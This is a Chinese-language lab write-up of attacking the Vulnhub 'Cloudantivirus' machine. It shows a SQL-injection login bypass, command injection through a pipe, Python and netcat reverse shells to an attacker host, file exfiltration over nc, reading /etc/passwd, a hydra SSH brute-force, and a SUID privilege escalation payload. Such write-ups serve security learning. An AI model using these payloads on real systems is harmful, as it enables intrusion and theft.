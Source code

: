 ﻿---
title: Chapter2_Easy_Cloudantivirus
categories:
- Network_Security
- Vulnhub
- Chapter2
tags:
- Network_Security
- Vulnhub
date: 2024-04-05 13:32:28
---

# Cloudantivirus 记录

## 1. 流程记录

### 1.1 扫描与发现

1. 主机发现，arp-scan 是偏向黑客工具，而 arping 是 Linux 发行版常见的工具。
    缺点：arping 不支持网段的扫描，因此需要结合 Linux 脚本循环命令使用。

    ```shell
    for i in $(seq 3 254); do sudo arping -c 2 192.168.0.$i; done
    # 扫描 192.168.0.3-254，-c 表示 count
    ```

2. 端口扫描：
    `sudo nmap -Pn -sV 192.168.0.104 -p 1-65535`
    ![image-20240112141214011](image-20240112141214011.png)

3. 目录爆破
    `dirsearch -u http://192.168.0.104:8080/`
    ![image-20240112142933497](image-20240112142933497.png)
    访问了之后，没啥可利用的页面

4. burp fuzz 一下特殊符号，看看异常：

    ![image-20240112142910986](image-20240112142910986.png)
    发现 `"` 异常厉害，着重关注一下。

### 1.2 打点

1. 发现 SQL 注入，万能密码开梭 `1" or 1=1 -- -`，进入系统：
    ![image-20240112144303351](image-20240112144303351.png)

2. 猜测是命令执行漏洞，逻辑是 `./扫描程序 文件名`，先用 `hello | id` 检测：
    ![image-20240112145302878](image-20240112145302878.png)
    验证成功，确实是。

### 1.3 反弹 Shell

1. 使用 Python 来反弹 shell，又或者看目标机器上是否有 NC：
    `hello | python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`
    用 NC：

    ```bash
    hello | which nc
    hello | /bin/nc 192.168.0.2 4444 -e /bin/sh # 低版本的 NC 没有 -e 参数
    hello | /bin/nc 192.168.0.2 4444 # 测试发现可行，但没有返回 Shell
    ```

2. NC 串联：
    `hello | /bin/nc 192.168.0.2 4444 | /bin/bash | /bin/nc 192.168.0.2 5555 # nc 串联，使用 | 将结果向后传递。`
    创建两个监听端口后，4444 端输入的内容会在靶机的 /bin/bash 下执行，（由于管道符 `|`)，结果会发送到 5555 端：
    ![image-20240112151651716](image-20240112151651716.png)

### 1.4 内部的信息收集与提权

1. 用下载他的 database.sql 文件，本机执行一下，看看有什么特殊信息：

    ```bash
    file database.sql # 发现是 sqlite3 的数据库文件
    nc -vlnp 6666 > db.sql
    nc 192.168.0.2 6666 < database.sql # 在 4444 中执行，将该文件的内容传输到连接通道中去。
    sqlite3 # kali 中打开数据库环境
    sqlite> .open db.sql # 打开数据库文件
    sqlite> .database # 查看当前加载的数据库
    sqlite> .dump # 查看脚本内容
    ```

2. 看样子都是密码，考虑这个密码是不是登录界面的密码，尝试了一下，确实是。同时猜测是否是其 ssh 的密码：
    ```bash
    cat /etc/passwd
    cat /etc/passwd | grep /bin/bash # 筛选能通过 ssh 登录的用户
    ```

    生成用户名和密码（来自数据库）字典，用 hydra 爆破。
    ```bash
    vim username.txt
    vim password.txt
    hydra -L username.txt -P password.txt ssh://192.168.0.104
    ```

    结果没用。

3. 放弃，从其他的角度寻找提权的方式，再进行信息收集，查看文件，结果在上级文件夹下，存在文件：
    ![image-20240112155614433](image-20240112155614433.png)
    update_cloudav 符合 suid 提权条件：

    > https://blog.csdn.net/lv8549510/article/details/85406215
    >
    > suid 作用：给一个用户继承二进制程序所有者拥有的权限，即当执行该文件时，用户暂时获得该二进制文件所有者的权限。

    如果该文件中执行反弹 shell，那么生成的 shell 就有了 root 权限。
    update_cloudav 文件应该是 update_cloudav.c 的二进制文件。

4. 查看更新文件的源码：
    ![image-20240112160113060](image-20240112160113060.png)
    大概分析一下：`command` 变量为命令执行的语句，该命令调用了 `freshclam`（Clamav) 的程序，其中要求添加一个参数。
    再次构建 payload（参数中执行命令)：
    `./update_cloudav "a | nc 192.168.0.2 6666 | /bin/bash | nc 192.168.0.2 7777"`

5. 至此，提权结束：
    ![image-20240112160749970](image-20240112160749970.png)

## 2. 知识点总结

1. arping 与 shell 脚本的混合使用
2. NC 串联
3. ssh 密码爆破思路
4. suid 提权
